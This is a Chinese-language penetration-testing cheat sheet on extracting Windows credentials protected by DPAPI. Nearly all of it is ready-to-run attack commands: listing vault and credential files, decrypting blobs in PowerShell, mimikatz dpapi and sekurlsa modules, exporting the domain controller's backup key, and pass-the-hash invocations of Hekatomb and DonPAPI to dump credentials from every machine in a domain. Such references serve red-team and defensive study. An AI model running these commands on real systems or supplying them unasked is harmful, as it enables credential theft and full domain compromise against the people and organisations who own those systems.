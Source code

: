 # Windows - DPAPI

> 在Windows系统中，保存在Windows凭据管理器中的凭据使用微软的数据保护API进行加密，并作为“blob”文件存储在用户的AppData文件夹中。

## 概述

* [数据保护API](#data-protection-api)
  * [列出凭据文件](#list-credential-files)
  * [DPAPI本地机器上下文](#dpapi-localmachine-context)
  * [Mimikatz - 凭据管理器和DPAPI](#mimikatz---credential-manager--dpapi)
  * [Hekatomb - 窃取域中所有凭据](#hekatomb---steal-all-credentials-on-domain)
  * [DonPAPI - 远程转储DPAPI凭据](#donpapi---dumping-dpapi-credz-remotely)

## 数据保护API

* 在域外：使用用户的`密码哈希`来加密这些“blobs”。
* 在域内：使用`域控制器的主密钥`来加密这些blobs。

通过提取域控制器的私钥，可以解密所有的blobs，因此可以恢复域中所有工作站Windows识别管理器中记录的所有秘密。

```ps1
vaultcmd /list

VaultCmd /listcreds:<namevault>|<guidvault> /all
vaultcmd /listcreds:"Windows Credentials" /all
```

### 列出凭据文件

```ps1
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\

Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

### DPAPI本地机器上下文

`本地机器`上下文用于保护打算在同一台机器上的不同用户或服务之间共享的数据。这意味着任何在机器上运行的用户或服务都可以使用适当的凭据访问受保护的数据。

相比之下，`当前用户`上下文用于保护只有加密它的用户才打算访问的数据，且不能被同一台机器上的其他用户或服务访问。

```ps1
$a = [System.Convert]::FromBase64String("AQAAANCMnd[...]")
$b = [System.Security.Cryptography.ProtectedData]::Unprotect($a, $null, [System.Security.Cryptography.DataProtectionScope]::LocalMachine)
[System.Text.Encoding]::ASCII.GetString($b)
```

### Mimikatz - 凭据管理器和DPAPI

```powershell
# 检查文件夹以查找凭据
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# 使用mimikatz检查文件
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0
# 查找主密钥
mimikatz !sekurlsa::dpapi
# 使用主密钥
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b

# 查找并导出备份密钥
lsadump::backupkeys /system:dc01.lab.local /export
# 使用备份密钥
dpapi::masterkey /in:"C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```

### Hekatomb - 窃取域中所有凭据

> [Processus-Thief/Hekatomb](https://github.com/Processus-Thief/HEKATOMB) 是一个Python脚本，它连接到LDAP目录以检索所有计算机和用户信息。然后，它将从所有计算机下载所有用户的DPAPI blob。最后，它将提取域控制器的私钥，通过RPC使用它来解密所有凭据。

```python
pip3 install hekatomb
hekatomb -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp
```

![内存中的数据](https://github.com/Processus-Thief/HEKATOMB/raw/main/.assets/github1.png)

### DonPAPI - 远程转储DPAPI凭据

* [login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)

```ps1
DonPAPI.py domain/user:passw0rd@target
DonPAPI.py --hashes <LM>:<NT> domain/user@target

# 使用域备份密钥
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list
```

## 参考资料

* [DPAPI - 提取密码 - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)
* [DON PAPI, OU L’ART D’ALLER PLUS LOIN QUE LE DOMAIN ADMIN - LoginSecurité - CORTO GUEGUEN - 2022年3月4日](https://www.login-securite.com/2022/03/04/don-papi-ou-lart-daller-plus-loin-que-le-avec-dpapi/)